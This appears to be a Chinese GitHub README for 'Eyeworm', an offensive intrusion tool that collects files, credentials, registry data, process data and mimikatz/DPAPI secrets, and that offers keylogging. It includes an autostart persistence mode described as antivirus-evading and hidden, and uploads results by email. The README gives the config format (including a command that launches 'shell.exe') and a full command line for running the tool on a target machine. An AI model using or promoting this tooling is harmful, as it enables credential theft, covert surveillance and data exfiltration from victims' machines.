# Eyeworm V 1.2.0 
一款强大的内网信息收集工具，支持文件、文件夹、文件内容、命令、注册表、进程、mimikatz命令、dpapi、最近访问收集，且支持定制化配置，只需更新配置文件，定义收集规则，即可开启对各类浏览器、remote工具、聊天软件进行凭据、信息收集

![EyeWorm](EyeWorm.jpg)

## 功能
-wfiles  根据配置文件对文件、文件夹、内容收集 文件名支持通配符 *，?  例如: a?c、ab* 、 *密码


-wcommands  根据配置文件的cmd命令集收集输出信息（結合wfiles，可进行命令结果文件收集）


-wprocess 根据配置文件的进程名，匹配正在运行的进程路径进行信息收集


-wregistry 根据配置文件配置收集注册表项信息


-wrecent  根据配置文件配置收集最近访问中的目标文件


-wmimikatz 根据配置文件配置 使用加密型mimikatz进行结果收集


-dpapi 获得Masterkey


-spy 开启监控，关机后结束


-redeye 开启常驻模式（开机自启），需要配置 回传邮件、打包密码、常驻规则。（该模式已经实现免杀和隐藏，必须用相同配置文件的unred解除）
例如 ：`Eyeworm -wfiles -wcommands -redEye` 开启文件、命令 的常驻收集


-upload 上传收集结果 需要配置 回传邮件、打包密码


-o="result.txt" 把收集结果输出文件


-keylog 键盘记录功能开启（必须开启redeye或spy）


-unred 解除该电脑的redeye常驻模式

## 配置文件 EyeConfig.json

下列是单个收集策略：
`        {

            "RuleName":"DefultFilesWorm",         //规则名称 如扩展chromeWorm，QQBrowerWorm 用于区分
            
            "OS": "Windows",                      //操作系统   
            
            "CollectorType": "File",              //收集策略类型， 如wfiles 收集的就是类型为File的收集策略 
                                                （File 文件收集，Command 命令收集，Recent 最近访问，Process 进程收集，Registry 注册表收集 APi mimikatz收集）
            
            "Category": "defult",                // 分类 用于归类如：Browsers、remoteTools,、chatTool
            
            "Locations":["C:/Users/admin/Chrome","E:/QQ"],  //搜索路径集
            
            "ContentKeys": ["\"_id\":","password:"],       //内容收集的匹配字
            
            "FileName":["*c","a?b","*"],                    //文件名匹配字            
            
            "SuffixTypes":[".txt"],                         // 搜索文件后缀
            
            "Explain": "文件及文件夹收集,支持 * 通配符  ",
            
            "Commands":["set","ipconfig","start 'E:\shell.exe'"],    // 命令收集中需要执行的命令,（收集结果）
            
            "ProcessName": ["QQ.exe","Chrome.exe"],                 // 进程收集中的进程
            
            "DeCrypt": false,                                     //   保留字 解密功能（todo）
            
            "DeCryptCommand": null                                //保留字  解密命令 （todo）
            
        },`
           
## 使用

### 编译
进入 PackSource 中，配置好ico，EyeConfig.json，versioninfo.json，main.manifest 四个文件 运行PackSource.go 得到 main.syso 在EyeWorm目录下


回到EyeWorm目录下，go build 

### 更新配置文件
由于配置文件是内嵌go中的，防止重复编译麻烦，提供UpdateSource更新内嵌的EyeConfig.json 配置文件


修改好EyeConfig.json


编译UpdateSource中内容，得到更新工具UpdateSource.exe


使用`UpdateSource.exe -File=Eyeworm.exe -Data=EyeConfig.json`  即可更新


### 攻击
Eyeworm.exe上传在目标机器上执行对应命令
例：`Eyeworm.exe -wfile -wcommand -wprocess -wregistry -wrecent -wmimikatz -keylog -redeye`


